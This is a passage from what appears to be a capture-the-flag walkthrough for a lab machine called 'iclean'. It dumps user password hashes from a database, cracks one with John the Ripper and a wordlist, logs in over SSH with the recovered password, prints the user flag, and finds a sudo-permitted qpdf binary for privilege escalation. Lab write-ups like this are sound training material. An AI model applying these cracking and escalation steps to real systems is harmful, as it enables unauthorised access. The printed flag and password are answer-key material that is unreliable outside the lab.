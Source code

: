 ```bash
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)

mysql>
```

There is two users with a hash. Copy/paste them and use **JohnTheRipper** to bruteforce hash : 
```bash
john --wordlist=/opt/rockyou.txt hash.txt --format=raw-sha256
```

💡 *Format found with **Haiti** !*

```bash
consuela:0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:simple and clean
```

Connect with SSH and get the user flag ! 

```bash
consuela@iclean:~$ ls -l user.txt 
-rw-r----- 1 root consuela 33 Apr 13 17:29 user.txt
consuela@iclean:~$ cat user.txt 
2821a0fe852ce0659b72bbcfe326ec75
consuela@iclean:~$ id
uid=1000(consuela) gid=1000(consuela) groups=1000(consuela)
consuela@iclean:~$
```


## Privilege Escalation

Run ``sudo -l`` : 

```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
consuela@iclean:~$
```

Try to know more about the binary with ``qpdf --help``.
